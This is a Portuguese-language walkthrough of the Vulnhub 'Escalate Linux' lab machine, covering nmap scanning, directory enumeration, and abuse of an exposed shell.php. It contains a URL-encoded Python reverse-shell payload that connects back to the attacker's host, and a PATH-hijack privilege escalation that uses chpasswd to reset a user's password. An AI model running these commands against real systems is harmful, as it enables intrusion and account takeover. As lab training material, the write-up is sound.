 ```yaml
---
title: Vulnhub - Escalate Linux
categories: [Vulnhub]
#tags: []
render_with_liquid: false
image: https://0xPurpl3john.github.io/assets/img/Vulnhub/escalate_linux/capa.png
---
```



## Link da Maquina: <https://www.vulnhub.com/entry/escalate_linux-1,323/>
---

## Olá

Aproveite.

## Scanning web and services

### Host Discovery

Inicialmente, foi realizado um escaneamento na rede em busca do IP da máquina alvo.

```bash
sudo nmap -sn 10.0.2.1-255
```

> O parâmetro `-sn` tem como finalidade realizar um ping scan.
> 

![scan nmap 10.0.2.9](/assets/img/Vulnhub/escalate_linux/scannmap.png)

### Port Discovery

Já com o IP alvo em mãos, foi utilizado o comando abaixo para obter mais informações a respeito das portas e serviços que estariam em funcionamento no alvo. O comando abaixo é dividido em duas partes, primeiramente ele realiza um escaneamento em todas as `65535 portas` existentes e as filtra, armazenando tudo na variável `ports` que é utilizada na segunda parte do comando.

```bash
ports=$(sudo nmap -p- -Pn --min-rate=1000 -T4 10.0.2.9 | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//) && sudo nmap -sV -p $ports 10.0.2.9
```

![scan nmap ports 10.0.2.9](/assets/img/Vulnhub/escalate_linux/scannmapports.png)

## Enumeration

### Port 80 - Apache httpd 2.4.29

Para enumeração da porta em questão, primeiramente foi inserido no navegador e o que estava rodando era uma página padrão do apache. Logo, foi iniciado a utilização da ferramenta *dirbuster* para enumeração de diretórios conforme as figuras abaixo.

![port 80 - apache](/assets/img/Vulnhub/escalate_linux/port80apache.png)

![dirbuster](/assets/img/Vulnhub/escalate_linux/dirbuster.png)

Foi descoberto a partir da ferramenta supracitada a existência de um arquivo denominado `shell.php`. Ao acessar o diretório havia a mensagem “pass cmd as get parameter” logo, foi realizado uma tentativa de utilizar o comando solicitado na url com o comando `pwd` e foi obtido o resultado abaixo.

![Shell.php](/assets/img/Vulnhub/escalate_linux/shellphp.png)

O comando `pwd` funcionou! Logo, temos um grande problema aqui.

> Foram feitas tentativas de upload de arquivos, porém os arquivos não foram encontrados (mas não passei muito tempo procurando).
> 

Após, foi realizado uma tentativa de obter uma *shell* através de um script *python* encodado e a partir disso foi possível entrar na maquina com sucesso.

```
http://10.0.2.9/shell.php?cmd=python%20-c%20%27import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%2210.0.2.6%22,443));os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import%20pty;%20pty.spawn(%22/bin/bash%22)%27
```

### Shell Obtido

Utilizando o código em *python* para obter uma shell reversa e a ferramenta *nc* como listener, conseguimos a *shell*.

![Shell Obtido](/assets/img/Vulnhub/escalate_linux/shellobtido.png)

## Privilege Escalation

A partir do momento que foi obtido a *shell* na máquina alvo, foram realizados procedimentos padrão em busca da escalação de privilégios.

Também, foi realizado o download do arquivo *[LinEnum.sh](http://LinEnum.sh),* através de um server simples em python na minha máquina, para realizar uma enumeração automatizada de alguns pontos interessantes da máquina alvo.

![linenum.sh](/assets/img/Vulnhub/escalate_linux/linenumsh.png)

![linenum result](/assets/img/Vulnhub/escalate_linux/linenumsh-result1.png)

![linenum result-2](/assets/img/Vulnhub/escalate_linux/linenumsh-result2.png)

A ferramenta trouxe diversos pontos interessantes, destaquei dois nas imagens acima.

> É importante ressaltar que essa máquina possui diversos modos para escalação de privilégios. Aqui, será feito apenas um.
> 

Para nossa escalação de privilégios, primeiramente foi verificado a existência do arquivo do diretório `/home/user5/script` e ao utiliza-lo, o mesmo apresenta a mesma função do comando `ls`. Com isso em mente, foi feito um roubo de path, para que o script em questão executasse o `ls` que criamos.

- `echo ‘echo “user1:user1” | chpasswd’ > ls`
- `chmod 777 ls`
- `export PATH= tmp:$PATH`

![ls tmp](/assets/img/Vulnhub/escalate_linux/lstmp.png)

Conforme imagem acima, ao executar o script, o mesmo irá executar o comando `ls` que acabamos de criar. Com isso, a senha do usuário `user1` foi alterada e podemos trocar de usuário.

No usuário `user1` foram realizados procedimentos padrão em busca da escalação de privilégios e o comando `sudo -l` nos trouxe como resposta que o usuário `user1` possuía permissão de executar tudo.

- `sudo su`

![Acesso root](/assets/img/Vulnhub/escalate_linux/rootobtido.png)

### Root obtido Escalate_Linux!